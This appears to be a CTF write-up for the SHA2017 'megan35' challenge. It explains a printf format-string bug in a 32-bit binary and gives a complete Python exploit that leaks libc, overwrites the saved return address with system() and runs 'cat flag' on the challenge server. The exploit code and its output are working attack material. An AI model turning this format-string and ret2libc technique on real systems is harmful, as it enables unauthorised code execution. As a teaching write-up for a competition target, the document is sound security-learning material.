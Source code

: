 ```yaml
---
title: SHA2017 CTF - megan35 (pown 200)
author: Tosh
date: 2017-08-07
tags: ctf,pown,format string
layout: post
---
```


This is my solution for the challenge megan35 from SHA2017 CTF.

# Description of the challenge

We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

A service is running on megan35.stillhackinganyway.nl:3535.

Files provided (ELF-32 bits):

- [megan-35](https://repo.t0x0sh.org/ctf/2017/sha/megan-35)

- [libc.so.6](https://repo.t0x0sh.org/ctf/2017/sha/libc.so.6)

Protections :

```
RELRO          Partial RELRO
STACK CANARY   Canary found
NX             NX enabled
PIE            No PIE
RPATH          No RPATH
RUNPATH        No RUNPATH
ASLR           ASLR is disabled
```

# The vulnerability

The program decodes a megan35 string, and print it to stdout. The problem is that the buffer is directly passed to the printf() function which makes the program vulnerable to format string attack.

To build my exploit, I used the script [weird_encodings.py](https://gist.github.com/tunelko/49b7e64c1688d62d0ecd) from a github repository to encode strings in megan-35.

I started to get the base address of libc function from the leak of the format string (by using "%s").

With this address and the libc provided, I'm now able to build a return2libc attack and overwrite the saved-eip with the system() address !

And all is done !


# My exploit

```python
import base64
import sys
import struct

class Megan35:

    def __init__(self):
        megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, megan35))
        self.revlsrch = dict(zip(megan35, b))

    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r

# Obtained with a bit of bruteforcing :)
SEIP = 0xFFFFdb5c

# Obtained with leak
SYSTEM = 0xf7e53940

payload = struct.pack('<I', SEIP+3)
payload += struct.pack('<I', SEIP+2)
payload += struct.pack('<I', SEIP+1)
payload += struct.pack('<I', SEIP+0)

FMT = "a;cat flag    ;%0{}x%7$hhn%0{}x%8$hhn
                     %0{}x%9$hhn%0{}x%10$hhn\n".format(220,238,84,263)

payload += Megan35().encode(FMT)

print payload
```

We get :

```
$ python2.7 sploit.py | ncat megan35.stillhackinganyway.nl 3535
  Decrypt your text with the MEGAN-35 encryption.
  sh: 1: }yuqa: not found
  flag{43eb404b714b8d22e1168775eba1669c}
  sh: 1: %0220x%7%0238x%8%084x%9%0263x%10: not found
```
